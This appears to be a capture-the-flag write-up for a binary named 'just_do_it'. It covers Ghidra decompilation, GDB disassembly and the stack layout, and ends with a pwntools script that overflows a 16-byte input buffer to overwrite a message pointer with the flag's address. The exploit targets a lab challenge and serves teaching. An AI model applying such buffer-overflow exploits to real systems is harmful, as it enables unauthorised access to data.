

# Ghidra Decompilation
```C
undefined4 main(void)

{
  char *f_string;
  int iVar1;
  char usr_input [16];
  FILE *f_ptr;
  char *msg;
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  msg = failed_message;
  f_ptr = fopen("flag.txt","r");
  if (f_ptr == (FILE *)0x0) {
    perror("file open error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  f_string = fgets(flag,48,f_ptr);
  if (f_string == (char *)0x0) {
    perror("file read error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  f_string = fgets(usr_input,32,stdin);
  if (f_string == (char *)0x0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar1 = strcmp(usr_input,PASSWORD);
  if (iVar1 == 0) {
    msg = success_message;
  }
  puts(msg);
  return 0;
}
```

# Insight

We will try to overwrite `msg` with the memory address `f_ptr` points to, since it(the address) contains the flag
# GDB Debugger
```C
gef➤  disas main
Dump of assembler code for function main:
   0x080485bb <+0>:	lea    ecx,[esp+0x4]
   0x080485bf <+4>:	and    esp,0xfffffff0
   0x080485c2 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080485c5 <+10>:	push   ebp
   0x080485c6 <+11>:	mov    ebp,esp
   0x080485c8 <+13>:	push   ecx
   0x080485c9 <+14>:	sub    esp,0x24
   0x080485cc <+17>:	mov    eax,ds:0x804a060
   0x080485d1 <+22>:	push   0x0
   0x080485d3 <+24>:	push   0x2
   0x080485d5 <+26>:	push   0x0
   0x080485d7 <+28>:	push   eax
   0x080485d8 <+29>:	call   0x8048490 <setvbuf@plt>
   0x080485dd <+34>:	add    esp,0x10
   0x080485e0 <+37>:	mov    eax,ds:0x804a064
   0x080485e5 <+42>:	push   0x0
   0x080485e7 <+44>:	push   0x2
   0x080485e9 <+46>:	push   0x0
   0x080485eb <+48>:	push   eax
   0x080485ec <+49>:	call   0x8048490 <setvbuf@plt>
   0x080485f1 <+54>:	add    esp,0x10
   0x080485f4 <+57>:	mov    eax,ds:0x804a040
   0x080485f9 <+62>:	push   0x0
   0x080485fb <+64>:	push   0x2
   0x080485fd <+66>:	push   0x0
   0x080485ff <+68>:	push   eax
   0x08048600 <+69>:	call   0x8048490 <setvbuf@plt>
   0x08048605 <+74>:	add    esp,0x10
   0x08048608 <+77>:	mov    eax,ds:0x804a038
   0x0804860d <+82>:	mov    DWORD PTR [ebp-0xc],eax
   0x08048610 <+85>:	sub    esp,0x8
   0x08048613 <+88>:	push   0x80487d1
   0x08048618 <+93>:	push   0x80487d3
   0x0804861d <+98>:	call   0x80484a0 <fopen@plt>
   0x08048622 <+103>:	add    esp,0x10
   0x08048625 <+106>:	mov    DWORD PTR [ebp-0x10],eax
   0x08048628 <+109>:	cmp    DWORD PTR [ebp-0x10],0x0
   0x0804862c <+113>:	jne    0x8048648 <main+141>
   0x0804862e <+115>:	sub    esp,0xc
   0x08048631 <+118>:	push   0x80487dc
   0x08048636 <+123>:	call   0x8048450 <perror@plt>
   0x0804863b <+128>:	add    esp,0x10
   0x0804863e <+131>:	sub    esp,0xc
   0x08048641 <+134>:	push   0x0
   0x08048643 <+136>:	call   0x8048470 <exit@plt>
   0x08048648 <+141>:	sub    esp,0x4
   0x0804864b <+144>:	push   DWORD PTR [ebp-0x10]
   0x0804864e <+147>:	push   0x30
   0x08048650 <+149>:	push   0x804a080
   0x08048655 <+154>:	call   0x8048440 <fgets@plt>
```

Here, right at the second last line, right before `fgets`, we can see the memory address pointed by `f_ptr` : `0x804a080`. It is basically the diassembly of the line ` f_string = fgets(flag,48,f_ptr);`

Now we will have a look at the stack layout to find the offset

# Stack Layout

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     08048655(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)  
             undefined4        EAX:4          f_string                                XREF[1]:     08048655(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[2]:     080485c2(R), 
                                                                                                   08048708(*)  
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)  
             undefined4        Stack[-0x14]:4 msg                                     XREF[2]:     0804860d(W), 
                                                                                                   080486ee(W)  
             undefined4        Stack[-0x18]:4 f_ptr                                   XREF[3]:     08048625(W), 
                                                                                                   08048628(R), 
                                                                                                   0804864b(R)  
             undefined1[16]    Stack[-0x28]   usr_input                               XREF[2]:     080486a6(*), 
                                                                                                   080486d9(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:080484d7(*), 0804886c, 
                                                                                          080488c8(*)  
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
```

# Exploit

```python
#!/bin/python3
from pwn import *
target = process("./just_do_it")
#payload = b"P@SSW0RD" + 
payload = b"0"*20 
address = p32(0x804a080)
payload += address
#print(target.recvuntil("Input the password.\n"))
target.send(payload)
#print(target.recv())
target.interactive()
```

# Final Demonstration

